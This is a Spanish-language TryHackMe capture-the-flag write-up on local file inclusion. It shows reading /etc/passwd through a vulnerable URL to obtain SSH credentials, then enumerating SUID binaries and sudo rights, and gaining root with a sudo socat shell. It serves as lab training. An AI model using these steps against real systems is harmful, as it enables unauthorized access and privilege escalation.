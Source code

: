 ```yaml
---
title: "tryhackme: LFI"
share: false
excerpt: "Un desafío LFI para principiantes"
share: false
header:
  teaser:  /assets/images/lfi/logo.png
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - LFI
  - Local File Inclusion
---
```


# Local File Inclusion

Esta técnica consiste en incluir ficheros locales, es decir, archivos que se encuentran en el mismo servidor de la web con 
este tipo de fallo (a diferencia de Remote File Inclusión *RFI* que incluye archivos alojados en otros servidores). 

Esto se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar 
funciones en PHP para incluir archivos.

### una definicion un poco menos tecnica

El ataque de inclusión de archivos locales es el que utiliza el que puede incluir cualquier archivo local, es decir, todos los 
archivos que están presentes en el servidor si el permiso es correcto en el archivo. 

## ¿Qué peligro representa esto si solo se incluyen ficheros que estén en el mismo servidor?

Un atacante podría modificar los parámetros de lo que se incluye, por ejemplo, podría indicarle al 
sitio web que se incluyan otros archivos que también están en el servidor, comprometiendo la seguridad del mismo por completo.

El archivo más común en Unix que podemor verificar es */etc/passwd*, tal ruta, es el archivo de contraseñas en sistemas linux

### vamos a la practica

al visitar la ruta http://10.10.194.21, para este caso es la de nuestra maquina

lo primero que vemos es una pagina de inicio, vemos un poco de teoria sobre *LFI* y *RFI*

![pagina de inicio](/assets/images/lfi/home.png)

ahora vamos ver un articulo 

![url aritulo](/assets/images/lfi/url.png)

vemos la url y probamos, la idea es visualizar el archivo de contraseñas de linux

![passwd lfi](/assets/images/lfi/passwd.png)


## Encontramos un usuario y contraseña, nos conectamos por SSH y buscamos las banderas

```bash
ssh falconfeast@10.10.194.21
falconfeast@10.10.194.21's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 16 00:54:02 IST 2021

  System load:  0.02              Processes:           85
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 68%               IP address for eth0: 10.10.194.21
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Tue Nov 16 00:52:53 2021 from 10.9.4.214
falconfeast@inclusion:~$ 
```

encontramos la _flag_ y la leemos

```bash
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
6x9xxx5x1x8xx7x4x7x9
```
ahora buscamos obtener privilegios *root*

```bash
falconfeast@inclusion:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su

falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
- el comando *sudo -l* lo que hace es, enumerar los privilegios del usuario o verifica un mando

vemos que podemos usar *socat* para elevar privilegios ![aqui](https://gtfobins.github.io/gtfobins/socat/) podemos leer un poco
respecto a ello



```bash
falconfeast@inclusion:~$ sudo /usr/bin/socat stdin exec:/bin/sh
script /dev/null -c bash
Script started, file is /dev/null
root@inclusion:~# whoami
root
```
ejecutamos *script /dev/null -c bash* y luego *CTRL + Z* para regresar a la _shell_

```bash
root@inclusion:/root# cat root.txt
xx96x1x4x4x4x5x5x9xx
```
listo, somos usuario *root* y tenemos la _flag_
